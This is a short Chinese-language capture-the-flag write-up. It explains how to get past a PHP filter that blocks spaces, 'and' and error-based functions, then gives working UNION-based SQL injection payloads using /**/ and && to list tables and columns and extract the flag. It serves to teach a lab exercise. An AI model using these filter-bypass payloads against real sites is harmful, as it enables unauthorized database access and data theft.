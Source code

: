 ## 谢谢皮蛋 plus

同样还是联合注入，意在考察空格和 `and` 的绕过，为了避免直接使用报错注入得到 flag，将报错注入 ban 了

```Bash
preg_match_all("/ |extractvalue|updataxml|and/i",$id)
```

值得注意的一个点是，这题是双引号闭合，如果没有细心的检查会误以为是单引号闭合

![](assets/images/wp/2024/week2/图片.png)

双引号中带有单引号也可以执行成功，属于mysql的一种特性，可以自行尝试一下

![](assets/images/wp/2024/week2/图片 (1).png)

and使用&&替换，空格使用/**/替换，其他就是一样的操作了

查询当前数据库

```Bash
-1"/**/union/**/select/**/1,database()#
```

查询所有表名

```Bash
-1"/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/database()#
```

查询所有列名

```Bash
-1"/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'Fl4g'/**/&&/**/table_schema/**/=/**/database()#
```

得到flag

```Bash
-1"/**/union/**/select/**/group_concat(des),group_concat(value)/**/from/**/Fl4g#
```